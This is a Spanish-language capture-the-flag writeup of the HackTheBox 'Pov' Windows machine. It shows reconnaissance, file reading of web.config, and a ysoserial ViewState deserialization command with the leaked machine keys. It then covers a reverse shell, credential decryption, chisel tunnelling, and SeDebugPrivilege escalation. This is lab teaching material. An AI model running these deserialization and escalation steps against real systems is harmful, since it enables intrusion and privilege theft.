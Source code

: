 ```yaml
---
title: HTB Pov Writeup
date: 2024-06-11 08:00:00 -05:00
author: retxus
categories: [HTB, Windows]
tags: [Windows, http, chisel, Winrm, SeDebugPrivilege]
comments: false
image:
  path: /assets/img/HTB-Pov/Pov.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Pov` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=96.3 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 96.253/96.253/96.253/0.000 ms
```

Vemos que el `ttl` de la máquina es de 127, el cual está próximo a 128 por ende nos encontramos ante una máquina `Windows`.

Ahora, con la herramienta `nmap` lanzamos un escaneo en donde vamos a enumerar los puertos que se encuentran abiertos en la máquina.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.252 -oG ports
```

Aquí generamos un archivo en formato grepeable y hacemos uso de la función <a href="https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2">extarctPorts</a> de <a href="https://s4vitar.github.io/">s4vitar</a>.

```bash
extractPorts ports
```

Ahora, con el número de los puertos copiados en el portapapeles, lanzamos otro escaneo para enumerar el servicio que corren por los puertos.

```bash
nmap -sCV -p80 10.10.11.251 -oN target
```

Aquí generamos un archivo en el formato normal de `nmap` en donde se nos muestra más información de los servicios que corren por esos puertos y vemos que el único puerto abierto en la máquina es el 80.

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Usamos el comando `whatweb` para ver las tecnologías usadas en la web.
```bash
whatweb 10.10.11.251

http://10.10.11.251 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sfitz@pov.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.251], Microsoft-IIS[10.0], Script, Title[pov.htb], X-Powered-By[ASP.NET]
```
No vemos nada interesante, pero en el título vemos lo que parece ser un dominio, así que, lo agregamos al `/etc/hosts`, para que la máquina sepa a dónde resolver.

```bash
127.0.0.1	localhost
::1		localhost
127.0.0.1	machinename.localhost	machinename

10.10.11.251    pov.htb
```

### Enumeración de subdominios
Como en la web no hay nada interesante que mostrar, buscamos algún subdominio.

```bash
ffuf -c -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST: FUZZ.pov.htb" -u http://pov.htb -fw  3740
```
Encontamos uno y lo agragamos al `/etc/hosts`. Nos dirigimos al subdominio y vemos que nos redirige a una ruta y hay una opción de descargar un CV, así que capturamos esa petición con `BurpSuite`.

### Deserialization .NET (ysoerial)
![](/assets/img/HTB-Pov/1_Pov.png)

Vemos que hay un parámetro file, por donde se descarga el CV, así que podemos probar a intentar buscar otros archivos.

![](/assets/img/HTB-Pov/2_Pov.png)

Aquí podemos ver que estamos en la capacidad de leer archivos y lo comprobamos viendo el `/etc/hosts` de la máquina víctima, así que podemos buscar otros archivos interesantes. Como estamos ante `ASP.NET` podemos buscar un `web.config`.

![](/assets/img/HTB-Pov/3_Pov.png)

Aquí vemos cosas interesantes como la verisón del framework y unas keys, buscando un poco por la web nos encontramos con <a href="https://book.hacktricks.xyz/pentesting-web/deserialization#net">esto</a>, donde nos explican como mediante el parámetro `__VIEWSTATE`, teniendo las keys podemos enviar un payload serializado para ejecutar comandos, para esto vamos a hacer uso de <a href="https://github.com/pwntester/ysoserial.net">ysoserial</a>, esto es un `.exe` para windows, pero lo podemos usar en linux siguiendo los pasos de <a href="https://medium.com/@hypri0n/run-ysoserial-exe-on-kali-linux-47b344ddff27">aqui</a>.

## Ganando acceso
Así que primero validamos si podemos ejecutar comandos. Para ello vamos a lanzarnos un `ping` desde la máquina víctima.

```bash
wine ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "ping 10.10.16.36" --path="/portfolio" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
El payload devuelto lo pegamos en el parámetro `__VIEWSTATE` y nos ponemos en escucha con `tcpdump`.

![](/assets/img/HTB-Pov/4_Pov.png)

Vemos que nos llegan los cuatro paquetes enviados por `windows` y ahora tratamos de ganar acceso, para ello no vamos <a href="https://www.revshells.com/">aquí</a>, yo hice uso de `Powershell#3 (Base64)`.


```bash
wine ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "payload rev shell" --path="/portfolio" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
![](/assets/img/HTB-Pov/5_Pov.png)

Ahora logramos ganar acceso como el usuario `sfitz`.

## Movimiento lateral
En su directorio pesonal en `Documents`, logramos ver un archivo `.xml` con una contraseña encriptada, que pertenece al usuario `alaading`, como es una encriptación con powershell, nos apoyamos <a href="https://stackoverflow.com/questions/63639876/powershell-password-decrypt">aquí</a> para descifrar la credencial.

![](/assets/img/HTB-Pov/6_Pov.png)

Como el usuario pertenece al grupo (Windows Remote Management), y el puerto `5985` está abierto internamente en la máquina, vamos a hacer uso de <a href="https://github.com/jpillora/chisel/releases/tag/v1.9.1">chisel</a> para traernos ese puerto y hacer uso de `evil-winrm`.

![](/assets/img/HTB-Pov/7_Pov.png)

## Ecalada de pivilegios
Como el usuario `alaading` tiene el privilegio `SeDebugPrivilege`, podemos hacer uso de eso para escalar privilegios, como nos explican <a href="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens">aquí</a>.
Primero vemos alguna tarea que se ejecute como administrador como `winlogon` y vemos su PID, para eso usamos el siguiente comando.

```bash
tasklist /v /FO LIST
```

Subimos el <a href="https://eternallybored.org/misc/netcat/">nc.exe</a> a la máquina para entablar una `rev shell`.
![](/assets/img/HTB-Pov/8_Pov.png)

Ahora ya somos `Administrator` y podemos ver la última flag.
